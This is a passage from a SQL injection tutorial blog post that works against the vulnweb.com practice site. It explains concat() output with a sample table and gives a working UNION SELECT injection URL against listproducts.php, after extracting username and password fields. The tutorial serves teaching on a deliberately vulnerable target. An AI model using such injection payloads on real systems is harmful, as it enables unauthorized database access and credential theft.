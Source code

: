 ![Desktop View](/assets/img/posts/fundamentals-of-sql-injection/sql14.jpg)
**Congrats !!** we got the username and password fields.
### Concat method
As you see above, I used concat for string formatting.Lets see how it is working from our example database.
{% highlight sql %}
MariaDB [testdb]> SELECT concat("FN:",FirstName, "  LN:",LastName) from users;
+-------------------------------------------+
| concat("FN:",FirstName, "  LN:",LastName) |
+-------------------------------------------+
| FN:Burak  LN:Baris                        |
| FN:Burak2  LN:Baris2                      |
| FN:Burak3  LN:Baris3                      |
+-------------------------------------------+
{% endhighlight %}
### Guess correction
As you remember, at the `Guessing the design` heading, we come up with a possible query that runs at the server
just by observing the behaviour of the web application. After doing more scans in the database, I see that, that guess
we made above, is kind of close to the real design.

<http://testphp.vulnweb.com/listproducts.php?cat=-00 UNION SELECT 1,pshort,3,4,5,6,title,img,(SELECT aname FROM artists WHERE artist_id=1),10,(SELECT cname FROM categ WHERE cat_id=1) FROM pictures WHERE cat_id=1>
<br>
Gives the same result as:
<br>
<http://testphp.vulnweb.com/listproducts.php?cat=1>

## VULNWEB - ERROR BASED SQLi

